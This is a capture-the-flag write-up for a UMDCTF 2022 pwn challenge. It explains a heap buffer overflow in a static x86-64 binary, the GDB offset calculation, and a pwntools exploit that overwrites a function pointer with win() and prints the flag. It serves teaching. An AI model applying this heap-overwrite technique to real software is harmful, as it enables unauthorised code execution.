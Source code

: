 # UMDCTF 2022

## The Show Must Go On

> We are in the business of entertainment, the show must go on! Hope we can
> find someone to replace our old act super fast...  
>  
> **Author**: WittsEnd2  
>  
> `0.cloud.chals.io 30138`  
>  
> [`theshow`](theshow)

Tags: _pwn_ _x86-64_ _bof_ _heap_

## Summary

BOF in embryo heap (vs stack) to change a function pointer to `win`.

> The binary is static linked.  So a bit more looking around.  You'll lose a
> lot of time if you do not discover the `win` function.

## Analysis

### Checksec

```  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

No PIE is all we need to call `win`.

### Ghidra Decompile

```c  
undefined8 setup(void)  
{  
 undefined8 *puVar1;  
 long in_FS_OFFSET;  
 int local_44;  
 char *local_40;  
 undefined local_38 [40];  
 long local_10;  
  
 local_10 = *(long *)(in_FS_OFFSET + 0x28);  
 local_40 = (char *)0x0;  
 local_44 = 0;  
 message1 = (undefined8 *)malloc_set(0x50);  
 message2 = (undefined8 *)malloc_set(0x60);  
 message3 = (undefined8 *)malloc_set(0x80);  
 puVar1 = message1;  
 *message1 = 0x20656d6f636c6557;  
 puVar1[1] = 0x6320656874206f74;  
 puVar1[2] = 0x6c63207964656d6f;  
 *(undefined4 *)(puVar1 + 3) = 0xa216275;  
 puVar1 = message2;  
 *message2 = 0x20796c6e6f206557;  
 puVar1[1] = 0x6568742065766168;  
 puVar1[2] = 0x6f63207473656220;  
 puVar1[3] = 0x20736e616964656d;  
 *(undefined4 *)(puVar1 + 4) = 0x65726568;  
 *(undefined *)((long)puVar1 + 0x24) = 0x21;  
 puVar1 = message3;  
 *message3 = 0x6820657361656c50;  
 puVar1[1] = 0x7320737520706c65;  
 puVar1[2] = 0x6f66207075207465;  
 puVar1[3] = 0x612072756f792072;  
 *(undefined4 *)(puVar1 + 4) = 0xa7463;  
 printf("%s",message1);  
 printf("%s",message2);  
 printf("%s",message3);  
 puts("What is the name of your act?");  
 __isoc99_scanf(&DAT_004bb1e6,local_38);  
 mainAct = malloc_set(0x68);  
 thunk_FUN_0040054e(mainAct,local_38,0x20);  
 local_40 = crypt("Main_Act_Is_The_Best",salt);  
 thunk_FUN_0040054e(mainAct + 0x20,local_40,0x40);  
 puts("Your act code is: Main_Act_Is_The_Best");  
 *(code **)(mainAct + 0x60) = tellAJoke;  
 currentAct = mainAct;  
 free(message1);  
 free(message3);  
 puts("How long do you want the show description to be?");  
 __isoc99_scanf(&DAT_004bb2a2,&local_44);  
 showDescription = (char *)malloc_set((long)(local_44 + 8));  
 puts("Describe the show for us:");  
 getchar();  
 fgets(showDescription,500,(FILE *)stdin);  
 actList._0_8_ = mainAct;  
 if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {  
   __stack_chk_fail();  
 }  
 return 0;  
}  
```

The vuln is `fgets`:

```c  
 puts("How long do you want the show description to be?");  
 __isoc99_scanf(&DAT_004bb2a2,&local_44);  
 showDescription = (char *)malloc_set((long)(local_44 + 8));  
 puts("Describe the show for us:");  
 getchar();  
 fgets(showDescription,500,(FILE *)stdin);  
```

The length of `showDescription` is dynamic, but `fgets` will read up to `500`
bytes.  This creates an opportunity to corrupt the heap.

There are four `malloc_set` calls before the `malloc_set` for
`showDescription`.  The fourth is for the `mainAct` struct; `0x60` offset into
that struct is a pointer to a function:

```c  
*(code **)(mainAct + 0x60) = tellAJoke;  
```

We just need to change that to `win`, that's it.

Just before we're prompted for show length, the following `free`s are called:

```c  
 free(message1);  
 free(message3);  
```

If we set our show length to the same as `message3` (`0x80`, see the
decompile), then we should be sitting in the heap right above the `mainAct`
struct (heap memory optimization for reuse).  If so, then overwriting the
function pointer is trivial.

The request size needs to be `0x80` - `8` (`120`), since the code will add `8`
to our value:

```c  
showDescription = (char *)malloc_set((long)(local_44 + 8));  
```

To overwrite the function pointer we'll need to send `0x80` bytes to exhaust
our allocation + `16` bytes for the heap structure (Google for some heap
diagrams) + `0x60` (offset into `mainAct` for function pointer).  So that's
`0x80 + 16 + 0x60` (`240`).

Alternatively you can use GDB:

```  
gef➤  run  
Starting program: /pwd/datajerk/umdctf2022/theshow/theshow  
Welcome to the comedy club!  
We only have the best comedians here!Please help us set up for your act  
What is the name of your act?  
FOOBAR  
Your act code is: Main_Act_Is_The_Best  
How long do you want the show description to be?  
^C  
Program received signal SIGINT, Interrupt.  
```

Start it, put in a string (e.g. `FOOBAR`), ctrl-C, then:

```  
gef➤  grep FOOBAR  
[+] Searching 'FOOBAR' in memory  
[+] In '[heap]'(0x6e9000-0x73b000), permission=rw-  
 0x719c90 - 0x719c96  →   "FOOBAR"  
```

Note the `0x719c90` location and type `c`:

The last prompt was `How long do you want the show description to be?`, and we
already determined above it needs to be `120`, so type that in:

```  
gef➤  c  
Continuing.  
120  
Describe the show for us:  
BLAHBLAH  
What would you like to do?  
+-------------+  
|   Actions   |  
|-------------|  
| Perform Act |  
| Switch Act  |  
| End Show    |  
+-------------|  
Action: ^C  
```

Enter something else (e.g. `BLAHBLAH`), and then ctrl-C and search for it:

```  
gef➤  grep BLAHBLAH  
[+] Searching 'BLAHBLAH' in memory  
[+] In '[heap]'(0x6e9000-0x73b000), permission=rw-  
 0x719c00 - 0x719c0a  →   "BLAHBLAH\n"  
```

Verify that `0x719c00` (location of `BLAHBLAH`) is less than `0x719c90`
(location of `FOOBAR`), if so, you're a winner.  Just subtract one from the
other and add `0x60` for the function pointer offset:

```  
gef➤  p/d 0x719c90 - 0x719c00 + 0x60  
$1 = 240  
```  
  
  
## Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./theshow',checksec=False)

if args.REMOTE:  
   p = remote('0.cloud.chals.io', 30138)  
else:  
   p = process(binary.path)

p.sendlineafter(b'act?\n', b'foo')  
p.sendlineafter(b'be?\n', b'120')

payload  = b''  
payload += 240 * b'A'  
payload += p64(binary.sym.win)

p.sendlineafter(b'us:\n', payload)  
p.sendlineafter(b'Action: ', b'1')

flag = p.recvline().strip().decode()

p.close()  
print(flag)  
```

Output:

```bash  
# ./exploit.py REMOTE=1  
[+] Opening connection to 0.cloud.chals.io on port 30138: Done  
[*] Closed connection to 0.cloud.chals.io port 30138  
UMDCTF{b1ns_cAN_B3_5up3r_f4st}  
```

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/umdctf2022/theshow).